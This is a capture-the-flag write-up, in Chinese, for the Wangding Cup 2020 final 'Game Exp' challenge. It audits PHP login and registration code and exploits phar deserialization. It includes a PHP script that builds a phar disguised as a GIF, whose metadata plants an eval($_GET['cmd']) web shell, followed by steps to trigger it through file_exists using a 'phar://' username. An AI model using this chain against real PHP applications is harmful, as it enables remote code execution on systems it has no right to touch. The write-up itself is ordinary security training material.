




# \[网鼎杯 2020 总决赛]Game Exp

## \[网鼎杯 2020 总决赛]Game Exp

## 考点

* 代码审计
* phar反序列化

## wp

### 第一段 login/index.php

题目附件给了源码，跟着功能点审一下。直接访问靶机会跳转到登陆页面，地址是`login/index.php`。

```php
if (isset($_POST['username'])){
    session_start();
    include_once "../sqlhelper.php";
    include_once "../user.php";
    $username = addslashes($_POST['username']);
    $password = addslashes($_POST['password']);
    $mysql = new sqlhelper();
    $sql = "SELECT password,id FROM user where username = '$username'";
    $res = $mysql->execute_dql($sql);
    $row = $res->fetch_row();
    if ($row[0]==md5($password)){
        session_start();
        $_SESSION['username'] = $username;
        $_SESSION['uid'] = $row[1];
        $u = new User($row[1]);
        $_SESSION['user'] = $u;
        header("Location: ../index.php");
        exit();
    }else{
        echo "<script>alert('登陆失败');</script>";

    }
}
```

很明显要先注册，源码也给了注册的源码

### 第二段 login/register.php

上来就是一个危险类，可以代码执行。然后注册页面有个头像上传的功能，大概率是phar触发这个`AnyClass`的`__destruct`

```php
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {
        eval($this -> output);
    }
}
```



后面就是很正常的注册流程代码



大概流程如下：

1. 对输入进行转义，并对密码md5加密
2. 设置白名单，上传图片只能是正常的图片，这个对上传进行过滤的方式也可以确定大概率要phar
3. 上传的文件最终文件名`filename`以`username.extension`方式命名
4. `file_exists`检查`filename`是否存在，可以触发phar

到这里思路大概就出来了，先注册一个用户，上传构造的phar文件，然后再去注册页面那里，利用注册，在`username`里面传`phar://***`，后面在进行拼接时会让`filename`变成`phar://***.extension`，再用`file_exists`触发phar

### 思路

先生成phar文件，改名成123.gif

```php
<?php
class AnyClass{
    var $output = "eval(\$_GET['cmd']);";
}
$a = new AnyClass();

$phar = new Phar('123.phar',0,'123.phar');
$phar->startBuffering();
$phar->setStub('GIF89a<?php __HALT_COMPILER(); ?>');


$phar->setMetadata($a);
$phar->addFromString('text.txt','test');
$phar->stopBuffering();
```

1.去注册，username我填的是peri0d，上传生成的gif




2.上传成功后，它的名字是`peri0d.gif`，先访问一下`login/peri0d.gif`，看一下有没有成功上传

3.再回到注册那，`username`填`phar://peri0d`，用burp抓包，在Repeater那里Get传参进行命令执行即可


